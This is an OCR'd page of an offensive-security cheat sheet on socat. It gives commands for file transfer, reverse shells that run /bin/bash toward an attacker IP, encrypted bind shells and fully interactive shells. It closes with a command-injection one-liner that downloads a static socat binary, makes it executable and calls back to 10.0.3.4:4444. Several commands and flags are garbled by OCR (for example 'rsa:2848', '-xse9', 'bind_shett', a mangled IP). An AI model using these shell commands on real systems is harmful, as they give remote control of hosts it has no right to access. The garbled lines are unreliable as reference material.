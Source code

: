 # Socat

## connect

```text
socat - TCP4:[ip]:[port] 
socat TCP4-LISTEN:[port] STDOUT
```

## file transfer

```text
sudo socat TCP4-LISTEN:443,fork file:file.txt
socat TCP4:18.11.8.4:443 file:file.txt,create
```

## reverse shell

```text
socat -d -d TCP4-LISTEN:443 STDOUT
socat TCP4:18.11.8.22:443 EXEC:/bin/bash
```

## Encrypted Bind Shells

​​create a cert with openssl:

```text
openssl req -newkey rsa:2848 -nodes -keyout shell.key -x509 -days 365 -out shell.crt
```

```text
req: initiate a new certificate signing request
-newkey: generate a new private key
rsa:2848: use RSA encryption with a 2,048-bit key length.
-nodes: store the private key without passphrase protection
-keyout: save the key to a file
-xse9: output a self-signed certificate instead of a certificate request
-days: set validity period in days
-out: save the certificate to a file
```

​merge two files to create a usable pem file for socat:

```text
cat bind_shett.key bind_shett.crt > bind_shett.pem

socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=e,fork EXEC:/bin
/bash

socat - OPENSSL:1e.11. e .4:443,verify=8
```

## intractive shell Using socat

```text
socat file:`tty`,raw,echo=0 tcp-listen:4444 → attacker
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444  → host
```

If socat isn’t installed, you’re not out of luck. There are standalone binaries that can be downloaded from this awesome Github repo:

{% embed url="https://github.com/andrew-d/static-binaries" %}

With a command injection vuln, it’s possible to download the correct architecture socat binary to a writable directoy, chmod it, then execute a reverse shell in one line:

```text
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```













